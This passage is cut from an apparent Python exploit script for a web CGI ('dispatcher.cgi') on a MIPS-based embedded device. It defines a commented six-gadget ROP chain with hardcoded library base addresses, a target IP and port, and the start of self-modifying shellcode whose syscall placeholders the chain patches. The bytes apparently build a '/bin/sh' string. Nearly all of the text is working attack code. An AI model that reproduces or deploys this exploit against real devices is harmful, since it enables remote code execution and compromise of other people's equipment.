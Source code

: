 ```
# -----------------------------------------------------------------------
# | rop6        | libuClibc.so   | move    $t9, $s0                     |
# |             | 0x18A44        | jalr    $t9                          |
# |             |                | addiu   $a1, $v0, 0x3708  # "blank"  |
# -----------------------------------------------------------------------
#
# rop1 - Load 0xC in $a2. Syscall bytes are 0x0000000C so this sets up the
#        first modification.
# rop2 - The opcode for syscall will be written to 0x50 on the stack. If
#        everything has been set up properly in the shellcode and rop chain
#        this will overwrite the first instance of 0xFEFEFEFE with 0x0000000C
#        creating our first syscall.
# rop3 - Move the stack pointer back so we can more easily find the start of
#        the shellcode. This gadget also finds our shellcode on the stack at
#        $sp + 0x20. We moved the stack back 0x18, but access it at 0x20 so we
#        jump past 0x8 bytes, or two operations, in the shellcode. We need
#        those two operations for padding so they exist as NOPs to push the
#        syscall offset to 0x50.
# rop4 - Move a small value into $a0 for a future call to sleep.
# rop5 - Call sleep and jump to the next gadget.
# rop6 - Call our shellcode on the stack.


ip = '172.18.5.55'
port = 8080
request_page = "dispatcher.cgi"

libc_base = 0x2aed6000
libwl_agent_base = 0x2af74000
libgcc_base = 0x2ae86000
sleep = struct.pack('<L', libc_base + 0x506C0)

rop1 = struct.pack('<L', libwl_agent_base + 0x14E8)
rop2 = struct.pack('<L', libgcc_base + 0xd38c)
rop3 = struct.pack('<L', libc_base + 0x427A4)
rop4 = struct.pack('<L', libc_base + 0x2512C)
rop5 = struct.pack('<L', libc_base + 0x312E0)
rop6 = struct.pack('<L', libc_base + 0x18A44)


# Multi-step self modifying shellcode. The ROP chain will fixup a syscall
# operation at 0x50 that will execute cacheflush. The cacheflush is performed
# after fixing up all syscall operation in the entire shellcode represented by
# place holder bytes of 0xFEFEFEFE.
shellcode = '\xfe\xfe\xe0\x27\xfe\xfe\xe0\x27\xdf\xce\x35\x27\xfe\xfe' + \
            '\xb7\x2a\x8c\x24\xf4\x26\x31\x31\xf6\x26\x7d\x31\xb4\xae' + \
            '\xb9\x31\xb4\xae\xc5\x31\xb4\xae\xd5\x31\xb4\xae\xe5\x31' + \
            '\xb4\xae\xf5\x31\xb4\xae\x31\x32\xb4\xae\x21\x31\xa4\x26' + \
            '\x90\x25\x85\x3a\x8f\x24\x86\x3a\xbf\x34\x82\x3a\xfe\xfe' + \
            '\xe0\x27\xfe\xfe\xe0\x27\xfe\xfe\xe0\x27\xfe\xfe\xfe\xfe' + \
            '\x33\x31\xc4\x3a\x33\x31\xc5\x3a\x31\x31\xc6\x3a\x66\x21' + \
            '\xc2\x3a\xfe\xfe\xfe\xfe\xdf\xde\x5e\x24\x21\x21\xc4\x27' + \
            '\x33\x31\xd3\x3a\xd4\xfe\xb3\xaf\x80\x80\xf3\x26\xd6\xfe' + \
            '\xb3\xa7\x2c\x92\x73\x3a\xd8\xfe\xb3\xaf\x34\x3b\xd3\x3a' + \
            '\xda\xfe\xb3\xaf\xdc\xfe\xb7\xaf\xd4\xfe\xa5\x27\x21\x31' + \
            '\xc6\x3a\x7b\x21\xc2\x3a\xfe\xfe\xfe\xfe\x30\x31\xc4\x3a' + \
            '\xf8\x3e\xc2\x3a\xfe\xfe\xfe\xfe\x21\x21\xc4\x27\x31\x31' + \
            '\xc5\x3a\xee\x3e\xc2\x3a\xfe\xfe\xfe\xfe\x21\x21\xc4\x27' + \
            '\x30\x31\xc5\x3a\xee\x3e\xc2\x3a\xfe\xfe\xfe\xfe\x21\x21' + \
            '\xc4\x27\x33\x31\xc5\x3a\xee\x3e\xc2\x3a\xfe\xfe\xfe\xfe' + \
            '\x2f\x62\xe8\x26\xd4\xfe\xa8\xaf\x69\x6e\xe8\x26\xd6\xfe' + \
            '\xa8\xaf\x2f\x73\xe8\x26\xd8\xfe\xa8\xaf\x59\x31\xc8\x3a' + \
            '\xda\xfe\xa8\xaf\xd4\xfe\xa4\x27\xe0\xfe\xa4\xaf\xdc\xfe' + \
```
